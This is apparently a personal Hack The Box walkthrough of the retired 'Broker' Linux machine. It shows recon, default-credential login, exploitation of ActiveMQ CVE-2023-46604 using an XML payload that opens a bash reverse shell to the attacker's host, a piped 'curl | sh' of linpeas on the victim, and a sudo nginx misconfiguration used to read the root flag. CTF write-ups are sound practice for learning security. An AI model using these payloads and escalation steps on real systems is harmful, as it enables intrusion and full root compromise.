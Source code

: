 # Broker
First write-up doing HTB after a long time. I already solved this, so the notes will be from memory.


Metadata:
- OS: Linux
- Difficulty: Easy
- Status: Retired

## Recon

Started with running `nmap -sS <target-ip>` to get some information on the server. Learned that 22 & 80 were open. The fact it is using Nginx will be important later.

When you go to `http://<target-ip>'re prompted with a basic auth pop-up. Of course, `admin/admin` would work.

After logging in, you're directed to the splash page of ActiveMQ with the version: `5.15.15` (think I went to /admin to see the version). This is important because it is vulnerable to RCE [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604)

## Exploitation
Googling the CVE, I came across this efficient PoC from `X1r0z`. [Source Code](https://github.com/X1r0z/ActiveMQ-RCE).

```bash
git clone https://github.com/X1r0z/ActiveMQ-RCE.git
cd ActiveMQ-RCE #poc.xml example should exist
```

The PoC was simple enough, you modify an xml file that will be the payload sent and executed by the victim. Here is an example of that: [Thank you 0xdf](https://0xdf.gitlab.io/2023/11/09/htb-broker.html), because I actually needed assistance with privilege escalation. Something I hope to improve on in the future.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/<your-ip>/1337 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
Now it was time to connect to the victim machine. It involves 3 steps (I used 3 different terminal windows)

1. poc.xml needs to be hosted so the victim can `curl` and download the xml file.
2. start a netcat listener (port 1337 using my example)
3. run the PoC

```bash
# 1st terminal I run http server using python
python -m http.server #defaults to 8000

# 2nd terminal
ncat -lnvp 1337 # can't be leet if you don't use 1337

# 3rd terminal run the PoC
go run main.go -i <target-ip> -u http://<your-ip>:8000/poc.xml
```

### User Flag
At this point, you should get a shell connection on your 2nd terminal (where you ran netcat). From here, it is a simple `cd` and you'll have the user flag (user.txt).

### Privilege Escalation
This is where I sadly got stumped for a bit. I was able to get `linpeas.sh` on the box using curl and my http.server (port 8000).
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh #where my http server is being served

# from victim terminal
curl http://<your-ip>:8000/linpeas.sh | sh
```

Finally, we decided to look at what others did and came across a clean privilege escalation with Nginx. This is where the rest of the credit goes to `0xdf`. Hopefully with practice, I can improve on privilege escalation. Essentially, `sudo nginx` allows you to run a webserver as root. Thereby, allowing you to expose the root.txt flag.

First, you need to make a nginx.conf. Using `0xdf`'s example, I was able to write the file and `curl` it to the victim's machine (using the http.server).

Now, you want to save this file in a specific location that can run as root (I believe.). We stored it as `0xdf` did at `/dev/shm/nginx.conf`

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 8008;
        root /;
        autoindex on;
    }
}
```
Next, you want to start the nginx server, `sudo /usr/sbin/nginx -c /dev/shm/nginx.conf`

### Root Flag
Lastly, run `curl http://<your-ip>:8008/root/root.txt` and paste the flag.

## Final Thoughts
This was my first box after not doing HTB for almost 2 years. It was definitely an easy problem due to the vulnerability it focused on (RCE's are really strong). Also, I know the box was retired when I attempted it - made for finding a walkthrough super easy. Overall, I think this was a pretty good challenge. Especially trying to remember how to do things.

I think total time, it took less than an hour to solve. Hopefully in time I can improve on my 'privilege escalation'-fu and use metasploit to save time.
